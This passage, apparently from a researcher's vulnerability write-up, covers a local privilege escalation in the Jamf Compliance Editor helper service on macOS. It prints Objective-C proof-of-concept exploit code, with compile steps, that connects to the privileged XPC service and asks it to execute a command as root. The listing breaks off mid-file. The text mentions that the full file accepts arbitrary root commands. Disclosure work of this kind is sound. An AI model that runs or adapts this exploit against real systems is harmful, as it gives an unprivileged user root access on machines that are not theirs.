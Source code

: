 An easy demonstration of local privilege escalation!

Now throw this into a quick Obj-C script (shout out to [Csaba Fitzl's CVE-2021-26718](https://hackerone.com/reports/980876) for the basis!) and we're off to the races:
* [jce_exploit.m](/Binaries/Jamf%20Compliance%20Editor/jce_exploit.m)
   * Note the rendered version below is simplified, the actual file contains the optional ability to pass custom commands to run as root.

```objc
/*

Jamf Compliance Editor Helper Service - Local Privilege Escalation

------------------------------------------------------------------

Discovered by Mykola Grymalyuk of RIPEDA Consulting

------------------------------------------------------------------

Compile Steps:

   clang -framework Foundation -o jce_exploit jce_exploit.m

------------------------------------------------------------------

Exploit based on Csaba Fitzl's CVE-2021-26718:
- https://hackerone.com/reports/980876
*/

#import <Foundation/Foundation.h>


static NSString* kXPCHelperMachServiceName = @"com.jamf.complianceeditor.helper";

@protocol HelperExecutionService <NSObject>
- (void)executeScriptAt:(NSString *)scriptPath arguments:(NSArray<NSString *> *)arguments then:(void (^)(NSString *result, NSError *error))completionHandler;
@end


int main(int argc, const char * argv[]) {
    @autoreleasepool {

        __block int returnCode = 0;
        NSString* serviceName = kXPCHelperMachServiceName;
        NSLog(@"Exploiting service: %@", serviceName);

        NSXPCConnection* serviceConnection = [[NSXPCConnection alloc] initWithMachServiceName:serviceName options:NSXPCConnectionPrivileged];

        [serviceConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(HelperExecutionService)]];
        [serviceConnection resume];

        id service = [serviceConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
            NSLog(@"Error connecting: %@", error);
            returnCode = 1;
            exit(returnCode);
        }];

        NSString *command = @"/usr/bin/whoami";
        NSArray *arguments = @[];

        NSLog(@"Executing '%@'", command);

```